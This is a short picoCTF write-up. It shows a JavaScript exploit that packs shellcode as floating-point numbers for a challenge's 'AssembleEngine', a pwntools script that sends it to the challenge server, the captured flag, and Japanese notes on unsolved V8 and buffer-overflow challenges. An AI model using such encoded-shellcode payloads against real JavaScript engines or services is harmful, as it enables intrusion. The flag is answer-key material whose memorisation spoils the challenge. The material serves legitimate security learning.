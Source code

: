 ```
$ cat exp.js 
c = [3.1048139649706616e-307, 5.9310264137499685e+169, 1.4487291022406258e+166, 5.823708005076491e+252, 3.5076501255303705e+151, 3.43644173830211e+179, 1.4216697932898836e+161, 3.598803433647515e+175, 2.653683706070864e-32, 3.7610243926935285e-85, 5.432309262583187e-309, 1.238567325343229e-308, 6.867659397698158e+246, -3.985959746423108e-73, -7.161105510817759e-74, 1.638223e-318]
AssembleEngine(c);

$ cat solve.py 
from pwn import *
# context.log_level = 'debug'
r = remote('mercury.picoctf.net', 62123)

with open('./exp.js') as f:
        script = f.read()


r.sendlineafter(':', str(len(script)))
r.sendafter('!!\n', script)
r.interactive()

$ python solve.py 
[+] Opening connection to mercury.picoctf.net on port 62123: Done
[*] Switching to interactive mode
c = [3.1048139649706616e-307, 5.9310264137499685e+169, 1.4487291022406258e+166, 5.823708005076491e+252, 3.5076501255303705e+151, 3.43644173830211e+179, 1.4216697932898836e+161, 3.598803433647515e+175, 2.653683706070864e-32, 3.7610243926935285e-85, 5.432309262583187e-309, 1.238567325343229e-308, 6.867659397698158e+246, -3.985959746423108e-73, -7.161105510817759e-74, 1.638223e-318]
AssembleEngine(c);

File written. Running. Timeout is 20s
Run Complete
Stdout b'picoCTF{vr00m_vr00m_30abad0d522d3b14}\n'
Stderr b''
[*] Got EOF while reading in interactive
```

# 以下解けていない
## Download Horsepower
配列長を伸ばせるが、map構造体アドレスがリークしない。doubleの配列にオブジェクト埋めたり、オブジェクト配列に使うとセグる

## Turboflan
まだ見てない

## Bizz Fuzz
辛い。スクリプトの用意と、bof発火までのルートは確認したけど気力が足りない。
